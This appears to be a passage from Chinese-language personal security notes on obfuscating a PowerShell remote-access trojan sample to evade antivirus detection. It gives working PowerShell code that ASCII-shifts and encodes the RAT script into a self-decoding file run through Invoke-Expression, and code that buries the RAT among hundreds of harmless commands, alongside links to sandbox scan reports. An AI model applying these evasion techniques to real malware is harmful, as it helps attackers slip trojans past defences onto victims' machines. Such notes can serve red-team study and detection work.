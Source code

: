 ![image-20240115180448559](http://cdn.ayusummer233.top/DailyNotes/202401151804395.png)

---

##### 自定义加密

攻击者可以自定义加解密方案, 例如读取 RATSample.ps1, 将其中所有字符的 ASCII 码 +1 然后补齐 3 位生成一串加密指令然后对应解码执行

```powershell
$originalScript = Get-Content -Path "../../RATSample.ps1" -Raw
Write-Host $originalScript
$encryptedScript = ($originalScript.ToCharArray() | ForEach-Object {
    $asciiValue = [int][char]$_ + 1
    $asciiValue.ToString("D3")
}) -join ''
$decryptionScript = @"
`$encryptedScript = '$encryptedScript'
`$decryptedScript = ''
for (`$i = 0; `$i -lt `$encryptedScript.Length; `$i+=3) {
    `$asciiValue = [int]::Parse(`$encryptedScript.Substring(`$i, 3)) - 1
    `$decryptedScript += [char]`$asciiValue
}
Invoke-Expression `$decryptedScript
"@

$decryptionScript | Out-File -FilePath "EncryptedRAT.ps1"
```

![image-20240102033515761](http://cdn.ayusummer233.top/DailyNotes/202401020335834.png)

![image-20240102034136813](http://cdn.ayusummer233.top/DailyNotes/202401020341871.png)

---

[样本报告-微步在线云沙箱 (threatbook.com)](https://s.threatbook.com/report/file/4673839b2e1403c7c1cad50913517f3e9e7d3e4491da36cebac882051a0ba749)

![image-20240115181202403](http://cdn.ayusummer233.top/DailyNotes/202401151812539.png)

---

#### 填充合法的系统命令

和填充脏数据差不多的意思, 通过填充大量合法指令来混淆视听, 例如

```powershell
$repeatedCommands = @(
    "'Get-Host'",
    "'Get-Date'",
    "'Get-Service'",
    "'Get-Process'",
    "'Get-EventLog -LogName System'"
) * 100 # 重复100次
$originalScript = Get-Content -Path "../RATSample.ps1" -Raw
$obfuscatedScript = $repeatedCommands + $originalScript + $repeatedCommands
$obfuscatedScript -join "`n" | Out-File -FilePath "ObfuscatedRAT.ps1"
```
